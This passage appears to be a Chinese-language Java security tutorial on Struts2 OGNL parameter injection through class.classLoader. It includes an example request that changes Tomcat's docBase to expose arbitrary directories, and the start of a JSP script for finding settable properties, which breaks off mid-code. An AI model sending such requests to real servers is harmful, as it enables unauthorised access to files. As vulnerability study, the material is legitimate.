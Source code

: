 这样的正则，其实上还是可以在一定程度上修改 context 及 root 中的内容，例如：

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296692.png)

而且这个正则允许 `a.b.c.d.e` 的参数形式：

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296695.png)

这种形式能造成什么危害呢？

在 OGNL 中，可以直接使用变量名访问 root 对象中的内容，是因为程序会在 root 对象中尝试寻找对应的变量以及 get/set/is 方法：

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296697.png)

因此，我们可以直接使用 `class` 关键字获取 root 的 Class 对象，因为会调用 `getClass()` 方法，这个方法每个类都有，并可以通过这个方法访问其 ClassLoader 对象等等，如下图：

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296700.png)

在 struts2 中， root 对象是当次访问的 Action 对象，而其 ClassLoader 通常由运行环境所提供，例如在 Tomcat 下，这个 ClassLoader 应该为当前应用所使用的：`org.apache.catalina.loader.WebappClassLoader`。

在这个 ClassLoader 中，存放了很多在容器运行时，上下文中的所需要的一些值，如果这些值被修改了，可能会影响到应用程序的运行方式。

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296703.png)

能被我们修改的属性需要有以下几个条件：
- 有 set 方法，或者是可以使用 set 方法改变的值；
- 修饰符应该是 public；
- 属性的返回值应该是通过用户的输入可以被 OGNL 解析成为相应的对象；
- 修改后能够对应用程序造成影响，导致安全风险。


例如访问：`http://localhost:8080/test.action?class.classLoader.resources.dirContext.docBase=/Users/phoebe/Downloads`

此时 Tomcat 的文档路径将会改为我们传入的指定路径，可以访问其中的内容：

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296705.png)


在互联网上  yiran4827 师傅发出了他编写的脚本，用来找到 Tomcat 中可能存在风险的相关属性：

```java
<%!public void processClass(Object instance, javax.servlet.jsp.JspWriter out, java.util.HashSet set, String poc){
    try {
        Class<?> c = instance.getClass();
        set.add(instance);
        Method[] allMethods = c.getMethods();
        for (Method m : allMethods) {
        if (!m.getName().startsWith("set")) {
            continue;
        }
        if (!m.toGenericString().startsWith("public")) {
            continue;
        }
        Class<?>[] pType  = m.getParameterTypes();
        if(pType.length!=1) continue;
        
        if(pType[0].getName().equals("java.lang.String")||
        pType[0].getName().equals("boolean")||
        pType[0].getName().equals("int")){
            String fieldName = m.getName().substring(3,4).toLowerCase()+m.getName().substring(4);
            out.print(poc+"."+fieldName + "<br>");
        }
        }
        for (Method m : allMethods) {
        if (!m.getName().startsWith("get")) {
```